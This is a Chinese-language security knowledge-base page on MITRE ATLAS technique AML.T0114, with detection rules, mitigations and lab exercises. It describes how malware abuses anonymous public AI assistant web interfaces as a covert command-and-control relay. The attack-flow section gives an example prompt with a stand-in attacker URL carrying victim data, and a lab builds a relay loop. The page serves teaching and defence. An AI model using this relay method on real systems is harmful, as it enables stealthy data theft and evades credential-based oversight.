

# AI 服务 Web 界面 (AML.T0114)

## 一句话通俗理解

> 植入体不开后门、不连陌生服务器，而是弹出一个隐藏浏览器去"上 ChatGPT"：让 AI 助手去抓攻击者的网页（链接里夹着偷来的数据），再从 AI 的回答里读出下一步命令——防火墙看到的只是"有人在用 AI 聊天"。

## 难度等级

⭐⭐ **Demonstrated（已演示）**

官方成熟度评定为 Demonstrated——该技术已在公开研究中被完整实现：Check Point 研究团队演示了"AI in the Middle"攻击，植入体与 **Grok 和 Microsoft Copilot 的公开 Web 界面**建立匿名会话，诱导 AI 服务抓取攻击者控制的 URL（外带受害数据）、再从 AI 回复中取回攻击者指令（AML.CS0061）。定级 Demonstrated 的关键在**匿名前提**：该手法在"允许匿名/无认证浏览、摘要与 URL 抓取"的 AI Web 界面上最有效——随着越来越多公开 AI 助手默认登录，这条路径的通用性受制于产品形态。但在允许匿名的场景中，它让**一切依赖 API 密钥、服务账户、可吊销凭证的防御全部失效**。

## 技术描述

### 通俗解释

传统 AI 服务 C2（AML.T0096）走 API：有密钥、有账户、有调用记录。**AI 服务 Web 界面**走另一条路：恶意软件直接自动化一个浏览器（或 WebView 组件），像人一样使用公开 AI 助手的网页。

官方描述给出完整的工作模型：

1. **诱导抓取**：恶意软件提示 AI 助手"帮我抓取这个 URL"——URL 指向攻击者控制的服务器，**URL 参数或提示词内容中夹带受害数据**；
2. **指令回流**：AI 助手的**回复中携带攻击者预设的内容**，植入体解析回复并执行其中嵌入的指令。

官方明确点出该技术的**杀手级优势**：当 AI Web 界面允许**匿名或无认证**的浏览、摘要、URL 抓取时，攻击者**绕开了所有依赖 API 密钥、服务账户、用户身份或可吊销凭证的管控**——没有密钥可吊销、没有账户可冻结、没有调用配额可切断。

最终效果：C2 流量**混入流向可信 AI 服务域名的"看似合法"的 Web 流量**。官方描述精确总结了拓扑变化：AI 服务充当失陷系统与攻击者基础设施之间的**代理**，检测重心从 API 密钥与账户监控，转向**浏览器自动化、提示词内容、URL 抓取行为与 AI 服务遥测**。

### 技术原理

依据官方描述，攻击者可能滥用 AI 服务的 Web 界面作为中介命令与控制中继与被攻陷系统通信。恶意软件不直连攻击者基础设施、也不用 AI 厂商 API，而是打开或自动化浏览器、内嵌浏览器或 WebView 组件与公开 AI 助手交互：提示 AI 助手抓取攻击者控制的 URL、把受害数据放进 URL 参数或提示内容中，并经 AI 助手的响应带回攻击者提供的内容，植入体解析响应并执行嵌入指令。当 AI Web 界面允许匿名或无认证浏览、摘要或 URL 抓取时，攻击者可绕过依赖 API 密钥、服务账户、用户身份或可吊销凭证的管控。该技术让 C2 流量混入流向可信服务域名的合法 AI Web 流量——AI 服务充当失陷系统与攻击者基础设施之间的代理，检测重心从 API 密钥与账户监控转向浏览器自动化、提示词内容、URL 抓取行为与 AI 服务遥测。

**信道拓扑对比：**

| 信道 | 拓扑 | 认证依赖 | 检测面 |
|------|------|---------|--------|
| 传统 C2 | 失陷机 ⇄ 攻击者服务器 | — | 目的 IP/域名信誉 |
| AI 服务 API（T0096） | 失陷机 ⇄ AI API（指令载体） | API 密钥（可吊销） | API 遥测、账户监控 |
| AI Web 界面（本技术） | 失陷机 ⇄ AI 网页 ⇄ 攻击者 URL | **匿名可绕开** | 浏览器自动化、提示词内容、URL 抓取 |

**两条数据流的隐藏方式：**

- **数据外带（受害方→攻击方）**：藏在"请抓取这个链接"的 URL 参数里——AI 助手替失陷系统向攻击者服务器发起请求，请求本身就是外传动作；
- **指令回流（攻击方→受害方）**：藏在攻击者服务器返回给 AI 的页面内容里——AI 把它摘要进回复，植入体从回复文本中解析指令。

**攻击链上下游衔接**：

- **上游前提**：植入体已就位（[用户执行 (AML.T0011)](../06-Execution/AML.T0011-User-Execution.md) 等初始路径）；目标环境允许终端浏览器访问公开 AI 服务；
- **平行关系**：[AI 服务 API (AML.T0096)](./AML.T0096-AI-Service-API.md) 走程序化调用（有凭证依赖），本技术走浏览器自动化（匿名可用）——是同一"借 AI 服务"思路的两条实现路线；
- **下游去向**：信道承载指令与数据，与收集、渗漏战术直接衔接（外带数据即渗漏动作）。

**平台覆盖**：Enterprise——攻击发生在传统终端环境（恶意软件+浏览器自动化），AI 服务是信道载体。

### 用途影响

- **凭证防御全失效**：匿名访问 = 没有密钥可吊销、没有账户可封禁、没有配额可切断；
- **域名信誉失效**：流量目的地是知名 AI 服务域名，黑名单封禁等于切断员工生产力；
- **拓扑隐身**：失陷系统从不直连攻击者基础设施——中间隔着 AI 服务，网络侧只能看到"终端在用 AI"；
- **检测成本转移**：防御方被迫深入浏览器自动化行为与提示词内容分析——全新的检测领域。

## 攻击流程

### 典型攻击流程



**步骤详解：**

1. **植入体就位**
   - 通俗描述：先在终端上埋好"听话的程序"。
   - 技术细节：任意初始访问手段；植入体自带浏览器自动化能力（headless 浏览器、WebView 组件）。

2. **建立匿名会话**
   - 通俗描述：打开一个"游客模式"的 AI 聊天页。
   - 技术细节：与允许匿名使用的公开 AI 助手建立 Web 会话——CS0061 中植入体与公开 AI 服务建立匿名 Web 会话，全程无认证。

3. **构造提示词（外带数据）**
   - 通俗描述：让 AI 替自己"寄信"。
   - 技术细节：提示词形如"总结一下这个链接：`https://攻击者域/xxx?d=<受害数据>`"——受害数据编码进 URL 参数；AI 助手的 URL 抓取行为就是数据外传动作。

4. **攻击者返回指令页**
   - 通俗描述：攻击者在"回信"里夹带任务。
   - 技术细节：攻击者服务器返回含指令的页面内容；指令可以混淆为正常文本（如藏在文章中的标记模式）。

5. **AI 摘要与指令解析**
   - 通俗描述：AI 把信念给植入体听。
   - 技术细节：AI 助手把页面内容摘要进回复；植入体从回复文本中按协议解析指令。

6. **执行与循环**
   - 通俗描述：照做，然后把结果装进下一封信。
   - 技术细节：执行指令→结果编码进下一轮 URL 参数→循环往复，形成持续 C2。

## 真实案例

> 以下案例来自 MITRE ATLAS 官方案例库，直接命中本技术。

### 案例1：AI in the Middle——公开 AI 助手作 C2 中继（2026年2月，AML.CS0061）

- **时间**: 2026年2月17日
- **攻击者**: Check Point 研究团队（安全研究）
- **手法**: 研究者演示"AI in the Middle"攻击：恶意软件可滥用**具备匿名或无认证浏览与 URL 抓取能力**的 Web AI 助手作为隐蔽 C2 信道。概念验证使用 **Grok 与 Microsoft Copilot 的公开 Web 界面**：**植入体与公开 AI 服务建立匿名 Web 会话并发送构造的提示词**——由此形成命令与控制信道：数据经对攻击者控制域名的请求外传，命令经 AI 响应回传。因为植入体与可信 AI 服务域名通信（普通 HTTPS Web 流量），其活动与正常 AI 使用无异。
- **影响**: 研究演练——完整验证官方描述的工作模型：匿名会话绕开全部凭证管控、AI 服务充当中继代理、检测被迫转向浏览器自动化与提示词内容层；研究者同时警示这是"AI 驱动攻击的未来形态"
- **参考链接**: [Check Point: AI in the Middle - Turning Web-Based AI Services into C2 Proxies](https://research.checkpoint.com/2026/ai-in-the-middle-turning-web-based-ai-services-into-c2-proxies-the-future-of-ai-driven-attacks/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法授权的安全测试与教育目的。未经授权建立对他人系统的 C2 信道是违法行为。

### 实战技巧

1. **匿名 AI 服务可达性盘点**
   在授权评估中梳理目标环境的出网策略与 AI 服务形态：哪些公开 AI 助手可匿名访问？其 Web 界面是否支持 URL 抓取/联网浏览？终端浏览器对 AI 域名的访问策略？产出"匿名信道可行性"报告。

2. **浏览器自动化可观测面评估（自有终端）**
   在测试机上以 headless 浏览器访问自有测试页面，采集可观测痕迹：自动化指纹（CDP 特征、Webdriver 标志）、进程树特征、窗口可见性——这些是防御方仅存的抓手，评估其覆盖度。

3. **检测规则压力测试**
   评估组织对"AI 网页中 C2"的检测能力：AI 服务域名的 Web 流量有无基线？对"页面中含指令样文本"有无内容侧检测？把盲区整理成整改输入。

### 常用工具

| 工具名称 | 用途 | 平台 |
|----------|------|------|
| Playwright / Puppeteer（自有环境） | 浏览器自动化行为模拟 | 跨平台 |
| 自有 Web 服务器（模拟攻击者端） | 指令页与数据接收端 | 自建 |
| Wireshark / 代理日志 | 流量形态观察 | 跨平台 |

### 注意事项

- **只在自有终端与自有服务器间演练**：对他人系统的任何信道建立均属违法
- 报告聚焦"AI 域名出网策略"与"浏览器自动化检测"两大缺口
- 演练会话与数据立即清理

## 蓝队视角

### 检测要点

1. **浏览器层：自动化行为指纹**
   - 日志来源：EDR、浏览器遥测
   - 关注字段：浏览器进程参数（--headless/--remote-debugging）、窗口状态、进程父链
   - 异常特征：无头浏览器/WebView 组件由异常父进程启动；浏览器窗口不可见却有输入活动；CDP/WebDriver 自动化标志

2. **网络层：AI 域名流量形态**
   - 日志来源：出口代理、DNS 日志
   - 关注字段：目的域名、URL 路径与参数、会话时长与节奏
   - 异常特征：终端浏览器会话但访问模式机器化（无页面资源加载的纯 API 式请求）；URL 参数中的编码数据块；AI 服务会话与陌生外部域名的关联请求（AI 抓取行为的服务端日志交叉）

3. **内容层：提示词与回复特征**
   - 日志来源：AI 服务遥测（如可获取）
   - 异常特征：提示词中规律出现的"抓取 URL"请求模式；回复内容含命令样文本结构

### 监控建议

- **把"无人终端的浏览器活动"提级**：登录会话存在但用户空闲（屏保/锁屏）时的浏览器自动化是强信号
- **AI 域名流量建立终端级基线**：哪台终端、什么时段、何种使用节奏——偏离基线的自动化访问单独告警
- **关注官方缓解 M0024 的日志要求**：AI 遥测记录可疑提示词、基于浏览器的 AI 服务交互、URL 抓取请求与用于中继 C2 数据的 AI 响应

## 检测建议

### 应用层检测（AI 遥测）

**检测方法：** 依据官方缓解 AML.M0024，AI 遥测日志可帮助检测可疑提示词、基于浏览器的 AI 服务交互、URL 抓取请求与中继 C2 数据的 AI 响应。

- 提示词维度：规律性的"抓取 URL"请求模式、URL 参数含编码数据
- 会话维度：匿名/无认证会话的机器化使用节奏
- 响应维度：回复内容中的命令样文本结构

### 网络层检测

**检测方法：** 监控终端到 AI 域名的 Web 流量元数据。

- 无头/WebView 浏览器的进程-域名关联（EDR 联动）
- AI 域名会话的机器化节奏（会话时长、请求间隔的规律性）
- 出口流量中同一终端对 AI 服务与陌生外部域的关联访问

### 主机层检测

**检测方法：** 核心层——浏览器自动化行为。

- 浏览器进程的启动参数与父进程链（自动化框架特征）
- 无窗口/隐藏窗口的浏览器会话
- WebView 组件在非预期进程中的加载
- 剪贴板/内存中 AI 回复文本的命令解析行为（植入体侧）

### 检测规则思路示例

```yaml
title: 无人值守时段的无头浏览器访问AI服务
status: experimental
description: 检测锁屏/空闲时段由自动化浏览器发起的AI服务访问，
    可能预示AI服务Web界面C2信道（AML.T0114 / CS0061模式）
logsource:
    category: process_creation
    product: windows
detection:
    selection_browser:
        Image|endswith:
            - '\msedge.exe'
            - '\chrome.exe'
        CommandLine|contains:
            - '--headless'
            - '--remote-debugging'
    selection_ai_domain:
        DestinationHostname|endswith:
            - '.openai.com'
            - '.copilot.microsoft.com'
            - '.x.ai'
    idle_session:
        workstation_status: 'locked_or_idle'
    condition: selection_browser and selection_ai_domain and idle_session
falsepositives:
    - 无人值守的合法自动化测试（按测试机白名单化）
    - 屏保时间误判（结合多信号校准）
level: high
tags:
    - atlas.aml_t0114
```

## 缓解措施

> **映射说明**：截至 ATLAS 2026.09 数据版，MITRE ATLAS 官方数据为本技术映射了官方缓解措施 AML.M0024。以下按防御优先级组织，官方映射在表格中如实标注。

### 优先级1：关键措施

**终端浏览器自动化管控（本库建议，非官方映射）**

本技术的命门是浏览器自动化的可用性：对终端实施应用允许清单（默认禁止非授权浏览器与 WebView 宿主进程）；禁止生产终端运行 headless 浏览器/自动化框架；浏览器策略禁用远程调试端口（CDP 是自动化的通用入口）。

### 优先级2：重要措施

**AI 域名出网策略精细化（本库建议，非官方映射）**

一刀切封禁 AI 域名不可行，但可以做"终端级策略"：服务器/无人值守终端默认禁访 AI 服务 Web 页面；员工终端的 AI 访问限定已登录的企业管理通道（天然排除匿名会话）。

**AML.M0024 AI 遥测日志（官方映射）**

官方缓解描述：AI 遥测日志有助于检测**可疑提示词、基于浏览器的 AI 服务交互、URL 抓取请求与用于中继 C2 数据的 AI 响应**——在服务侧布下内容层检测。

### 优先级3：建议措施

**浏览器自动化指纹检测（本库建议，非官方映射）**

EDR 增加浏览器自动化特征规则：headless 启动参数、CDP 端口监听、WebDriver 标志、无窗口输入活动——把"自动化使用 AI"从"人使用 AI"中分离出来。

**用户侧 AI 使用治理（本库建议，非官方映射）**

引导员工经企业管理的 AI 入口使用（有身份、有审计），压缩匿名公开入口在企业终端上的"合法存在感"。

### MITRE ATLAS 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 优先级 | 官方映射 | 说明 |
|------------|-------------|:------:|:-------:|------|
| — | 终端浏览器自动化管控 | 关键 | 否（本库建议） | 允许清单 + 禁 headless/CDP |
| — | AI 域名出网策略精细化 | 重要 | 否（本库建议） | 服务器默认禁访 + 员工走企业管理通道 |
| AML.M0024 | AI 遥测日志 | 重要 | 是 | 检测可疑提示词/浏览器交互/URL 抓取/中继响应 |
| — | 浏览器自动化指纹检测 | 建议 | 否（本库建议） | EDR 的自动化特征规则 |
| — | 用户侧 AI 使用治理 | 建议 | 否（本库建议） | 收敛匿名入口的合法存在感 |

## 关联 ATT&CK 技术

ATLAS 官方数据未为本技术映射特定 ATT&CK 技术引用。以下为概念上最接近的企业版技术，供对照理解：

- [Web 服务 (T1102)](../../enterprise/13-Command-and-Control/T1102-Web-Service.md) — 概念直系：借公共 Web 服务中继 C2——本技术把"公共服务"具体化为 AI 助手网页，并叠加 URL 抓取机制
- [应用层协议 - Web 协议 (T1071.001)](../../enterprise/13-Command-and-Control/T1071/T1071.001-Web-Protocols.md) — 传输载体：普通 HTTPS 流量
- [内容注入 (T1659)](../../enterprise/03-Initial-Access/T1659-Content-Injection.md) — 手法近亲：把指令藏在正常服务返回的内容中

**传统 Web 服务 C2 vs AI Web 界面 C2：**

| 维度 | ATT&CK T1102 | ATLAS AML.T0114 |
|------|-------------|-----------------|
| 中继服务 | 粘贴站/网盘/社交平台 | 公开 AI 助手网页 |
| 认证依赖 | 多为匿名 | 匿名（明确绕开密钥/账户类管控） |
| 数据外带 | 直接上传 | **借 AI 的 URL 抓取**——请求由 AI 服务发起 |
| 指令回流 | 直接读取 | **藏进 AI 的回复**——经摘要/生成过程带回 |
| 交互形态 | 程序化 API 调用 | 浏览器自动化（拟人化） |
| 检测重心 | 服务访问模式 | 浏览器自动化 + 提示词内容 + AI 遥测 |

一句话总结：T1102 把 C2 藏进"公共服务的流量"里，AML.T0114 更进一步——**让 AI 服务亲自替攻击者跑腿**：外传数据有 AI 抓取代劳，回传指令有 AI 摘要代笔。

## 动手实验

> ⚠️ **重要提示**：所有实验必须在自有终端、自有测试服务器与自有 AI 账号间进行，禁止对他人系统建立任何信道。

### 实验环境准备

| 环境组件 | 用途 | 获取方式 |
|----------|------|----------|
| 隔离测试机 + Playwright | 浏览器自动化载体 | 开源 |
| 自有 Web 服务器（指令页/数据接收） | 攻击者端模拟 | 自建 |
| 自有可匿名访问的测试 AI 页面（或本地部署 LLM WebUI） | AI 中继模拟 | 自托管 |

### 实验1（初级）：自动化访问的指纹观察

**实验目标：** 认识浏览器自动化留下的痕迹。

**实验步骤：**
1. 用 Playwright headless 模式访问自有测试页面
2. 采集指纹：进程参数、WebDriver 属性、无窗口特征
3. 换成有头模式 + CDP 远程调试再采一次
4. 汇总"自动化可观测特征清单"

**预期结果：** 理解防御方手上仅存的检测抓手长什么样。

### 实验2（中级）：中继信道复现（良性版）

**实验目标：** 走通"提示词→URL 抓取→指令回流"的完整链路。

**实验步骤：**
1. 测试服务器部署"指令页"（内容含简单指令标记）
2. 用 Playwright 向自有 AI 页面发提示："总结 `http://我的服务器/page?d=test123`"
3. 观察：AI 是否发起抓取？服务器收到带参数的请求了吗？回复中含指令文本吗？
4. 写一个解析脚本从回复中提取指令——完成一个循环

**预期结果：** 一个可运行的良性中继循环 + 对"每个环节都是合法功能"的切身体会。

### 实验3（高级）：检测规则构建

**实验目标：** 为该信道建立最小检测。

**实验步骤：**
1. 采集"人用 AI"与"自动化用 AI"的流量与进程对照数据（各 30 分钟）
2. 找出区分特征：会话节奏、窗口状态、页面资源加载模式
3. 编写检测规则（如"锁屏时段 + 浏览器 + AI 域名"）
4. 用正常使用压测误报率

**预期结果：** 一条经校准的检测规则——理解检测重心为什么被"转移"到行为层。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| AI 服务 Web 界面 | AI Service Web Interface | 公开 AI 助手的网页版（浏览器访问） |
| WebView | WebView | 应用内嵌的浏览器组件 |
| 无头浏览器 | Headless Browser | 无图形界面的自动化浏览器 |
| CDP | Chrome DevTools Protocol | 浏览器调试协议——自动化的通用入口 |
| URL 抓取 | URL Fetching | AI 助手代用户访问外部链接的能力 |
| 匿名会话 | Anonymous Session | 无需登录/密钥即可使用的服务会话 |
| 中继 | Relay | 通信双方经第三方中介交换数据 |
| 自动化指纹 | Automation Fingerprint | 浏览器自动化留下的可检测特征 |
| 拟人化流量 | Human-like Traffic | 模仿正常用户行为模式的流量 |

## 参考资料

### 📚 官方文档

- [MITRE ATLAS - AI Service Web Interface (AML.T0114)](https://atlas.mitre.org/techniques/AML.T0114/) - 官方技术页面
- [MITRE ATLAS 矩阵](https://atlas.mitre.org/matrices/ATLAS/)
- [MITRE ATLAS Data (GitHub)](https://github.com/mitre-atlas/atlas-data)

### 📰 案例报告（真实攻击与安全研究）

- [Check Point: AI in the Middle - Turning Web-Based AI Services into C2 Proxies](https://research.checkpoint.com/2026/ai-in-the-middle-turning-web-based-ai-services-into-c2-proxies-the-future-of-ai-driven-attacks/) - 案例1 报告（AML.CS0061）

### 🔧 工具与资源

- [Playwright](https://playwright.dev/) - 浏览器自动化（实验载体/检测对象）
- [OWASP Top 10 for LLM Applications](https://owasp.org/www-project-top-10-for-large-language-model-applications/) - LLM 应用安全风险
- [NIST AI Risk Management Framework](https://www.nist.gov/itl/ai-risk-management-framework) - NIST AI 风险管理框架

### 🔗 关联阅读

- [命令与控制战术 (AML.TA0014)](./README.md) - 本技术所属战术的概览页
- [AI 服务 API (AML.T0096)](./AML.T0096-AI-Service-API.md) — 姊妹技术：程序化 API 信道（依赖凭证）
- [网络通信信道 (AML.T0072)](./AML.T0072-Cyber-Communication-Channel.md) — 母技术：一切信道的基座
- [AI 智能体 (AML.T0108)](./AML.T0108-AI-Agent.md) — 相邻技术：劫持系统上的智能体
- [用户执行 (AML.T0011)](../06-Execution/AML.T0011-User-Execution.md) — 上游入口：植入体的常见落地方式
- [自主 AI 智能体通信 (AML.T0118)](../03-AI-Attack-Adaptation/AML.T0118-Autonomous-AI-Agent-Communication.md) — 相邻概念：智能体间的通信机制

---

> **版本**: ATLAS 2026.09 | **更新**: 2026-10-24 | **模板**: ATLAS 技术文档 v1.0
